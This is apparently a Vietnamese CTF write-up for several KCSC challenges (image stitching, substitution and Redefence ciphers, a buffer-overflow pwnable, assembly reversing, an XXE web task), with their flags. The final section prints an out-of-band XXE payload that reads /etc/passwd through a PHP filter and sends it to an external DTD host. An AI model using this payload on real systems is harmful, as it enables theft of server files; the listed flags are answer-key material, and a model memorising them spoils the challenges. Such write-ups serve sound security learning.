







# BinggChillinggg
Prog/Misc

## Description:
> Đề cho một file zip: Bing.zip

## Solution:
sau khi tải file zip về mình thực hiện giải nén thì nhận thấy các bức ảnh này có vẻ như là từ một bức ảnh lớn hơn cắt nhỏ.
Script mình sử dụng để ghép các hình đó lại:
```python
from PIL import Image
import os

filenames = os.listdir('C:\\Users\\ADMIN\\Documents\\New folder\\Bingg\\')
filenames = [f for f in filenames if f.endswith('.png')]
images = []
for f in filenames:
    col, row = map(int, f.split("_")[1].split(".")[0].split("_"))
    images.append((col, row, Image.open(f)))

images.sort(key=lambda x: (x[0], x[1]))

widths, heights = zip(*(i.size for _, _, i in images))
max_col = max([col for col, _, _ in images])
max_row = max([row for _, row, _ in images])
total_width = max_col + 1
total_height = max_row + 1
result = Image.new('RGB', (total_width, total_height))

for col, row, im in images:
    result.paste(im, (col, row))

result.save('output.png')
```
sau khi chạy script thì mình có được ảnh này:


mặc dù thấy rõ hình người rồi nhưng chữ vẫn hơi lệch, không muốn mất thời gian nên mình đi con đường hơi tắt. không sửa lại code nữa mà ghép mấy phần chữ lại lấy flag luôn =)).



flag: KCSC{Zao_shang_hao_zhong_gou!_Xian_zai_wo_you_bing_chilling!!}


# Tet_is_ya_best
Crypto

## Description:
> Đề bài cho một file chứa những văn bản đã bị mã hoá:  lyl, rwns dmsfm rn wkmrx myf iyrx pynljorw, jn luy ejvvynl lxrqjljsmrw pynljorw jm ojyl mrh.
lyl jn knkrwwi pxsh luy ymq sp trmkrxi ls yrxwi pyexkrxi. 
eypsxy lyl, ojylmrhyny cxycrxy hrmi lujmvn psx luy luxyy hrjm qrin. 
luyi gwyrm luyjx uskny rmq qygsxrly fjlu pwsfyxn nkgu rn dkhbkrl lxyy sx cyrgu ewsnnsh. 
r ukvy rhskml sp pssq fjww ey eskvul eypsxy lyl psx hrdjmv lxrqjljsmrw qjnuyn. ermu gukmv, ermu lyl, vjs gur, asj rmq hkl, …rmq grmqjyn rxy luy pssqn lurl hknl uroy sm lyl uswjqrin.
qkxjmv lyl, cyscwy ojnjl luyjx xywrljoyn’ ushyn rmq vjoy fjnuyn. 
usfyoyx, luy ojylmrhyny eywjyoy lurl luy pjxnl ojnjlsx r prhjwi xygyjoyn jm luy iyrx qylyxhjmyn luyjx psxlkmy psx luy ymljxy iyrx, cyscwy myoyx ymlyx rmi uskny sm luy pjxnl qri fjluskl eyjmv jmojlyq pjxnl. 
rmsluyx gknlsh jn vjojmv wkgdi hsmyi, fujgu jn ckl jmls r xyq ymoywscy rn r nihesw sp wkgd rmq fjnu psx r myf rvy. 
lxrqjljsmrwwi, ywqyxn fjww vjoy wkgdi hsmyi ls gujwqxym rmq luy swqynl cyscwy jm luy prhjwi. usfyoyx, msfrqrin, cyscwy grm vjoy jl ls rmismy jmgwkqjmv pxjymqn, crxymln, myjvuesxn,… 
eynjqyn, ojylmrhyny knkrwwi vs ls crvsqrn sx lyhcwyn ls cxri psx uyrwlu, fyrwlu, nkggynn,… 
ls ojylmrhyny, lyl jn luy urccjynl ljhy sp rww iyrx rxskmq, hyheyxn jm r prhjwi grm vrluyx lsvyluyx, fujgu jn r hyrmjmvpkw hynnrvyn sp wkmrx myf iyrx pynljorw. 
rww jm rww, lyl jn rww reskl ergd ls sxjvjmn, ey vssq ls sluyxn, ymtsi luy cxygjskn hshyml, rmq fjnu psx luy eynl ls gshy.
luy pwrv jn: dgng{lyl_lyl_lyl_lyl_qym_xsj__gukg_grg_erm_mrh_hsj_lurl_mujyk_nkg_dusy__wko_pxsh_wkwkkkkkkkkkkkk}

## Solution:

có thể thấy ngay dòng cuối cùng chính là flag =))

mình dùng công cụ này để xác định dạng mã hoá: Cipher Identifier and Analyzer - https://www.boxentriq.com/code-breaking/cipher-identifier

và biết được: Monoalphabetic Substitution Cipher

rồi sử dụng công cụ này để giải mã:  https://www.boxentriq.com/code-breaking/cryptogram

và đây là kết quả:



flag: KCSC{tet_tet_tet_tet_den_roi_chuc_cac_ban_nam_moi_that_nhieu_suc_khoe_luv_from_luluuuuuuuuuuuu}


# Chuyến tàu vô tận
Crypto

## Description:
> Đề bài cho một file chứa dãy nhị phân như này:  01010011 00110001 01000010 01010100 01010110 01101011 00110101 01010110 01010011 01101011 01001010 01010011 01010101 00110000 01000110 01001111 01010001 00110000 01001110 01001101 01010001 01010101 01010110 01000010 01010010 01010101 01010110 01001000 01010011 00110000 01110100 01010000 01010110 01010101 00111001 01000110 01010100 00110000 01010110 01000010 01010110 01000110 01010010 01010101 01010100 00110001 01001110 01000110 01010101 00110001 01001010 01010000 01010111 01010110 01001010 01000111 01010100 01000110 01001110 01001010

## Solution:
dùng CyberChef giải mã binary và base64 mình được đoạn text này:  KPSVNUJBRSANCCLAEAEEGKKOUOEOEATTTOSESROYRFLSI

dùng công cụ sau để xác định dạng mã hoá: https://www.dcode.fr/cipher-identifier

sau nhiều lần thử quên ăn quên ngủ thì mình đã tìm thấy được dạng mã hoá đúng là Redefence cipher
đây là công cụ giải mã: https://www.dcode.fr/redefence-cipher

giải mã xong ta sẽ có được flag =))



# CAT
Pwnable

## Description:
> đề bài cho một file elf: cat

## Solution:
chạy thử file cat thì nhận được dòng sau:



tiếp theo, mình sử dụng một Binary Ninja để dịch ngược, và nhận thấy username và password:



sau khi dùng thông tin trên để đăng nhập thì mình được hỏi phải nhập secret key
để ý trong binary ninja thì ở chỗ lấy dữ liệu secret key chứ 0x200 byte: read(fd: 0, buf: &secret, nbytes: 0x200)

mình đã thực hiện nhập một chuỗi thật dài để tạo hiệu ứng tràn.
và mình nhận được cờ luôn =))



flag: KCSC{w3ll_d0n3_y0u_g0t_my_s3cr3t_n0w_d04942f299}


# AntiDebug
REVERSE

## Description:
> đề bài cung cấp một file asm: 
```assembly
void __cdecl ENC(int a1, int a2, int a3, int a4)

push    ebp
mov     ebp, esp
mov     eax, [ebp+0Ch]
add     eax, [ebp+10h]
add     eax, [ebp+8]
mov     ecx, [ebp+14h]
add     ecx, 0Ah
xor     ecx, [ebp+8]
add     eax, ecx
xor     eax, [ebp+8]
push    eax             ; char
push    offset Format   ; "0x%x"
call    printf
add     esp, 8
pop     ebp
retn
```

## Solution:
Đề bài hỏi là kết quả khi gọi hàm: ENC(0xAB12DF34, 0x7B, 0x2D, 0x43) trả về cái gì?

từ đoạn code trên thì mình chuyển sang code c cho dễ nhìn sẽ như này:
```c
#include<stdio.h>
#include<string.h>

void __cdecl ENC(int a1, int a2, int a3, int a4) {
    int eax = a3;
    int ecx = a4 + 0xA;
    eax = eax + a2 + a1;
    ecx = ecx ^ a1;
    eax = eax + ecx;
    eax = eax ^ a1;
    printf("0x%x", eax);
}


int main(){
	ENC(0xAB12DF34, 0x7B, 0x2D, 0x43);
}
```

sau khi chạy chương trình thì được kết quả là: 0xfd376061

flag: KCSC{0xfd376061}


# XXD
WED

## Description:
> Đường dẫn: http://146.190.115.228:13373/

## Solution:
sau khi truy cập trang web thì mình nhận được một cái survey, điền đủ thông tin và mình bắt lấy request được như sau:



trang web thực hiện post thông tin trong xml, ngoài ra đề bài là XXD nên làm mình liên tưởng tới tấn công XXE.
sau một hồi tìm trên PayloadAllTheThings thì mình tìm thấy cái có thể khai thác được là : XXE OOB with DTD and PHP filter

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://127.0.0.1/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```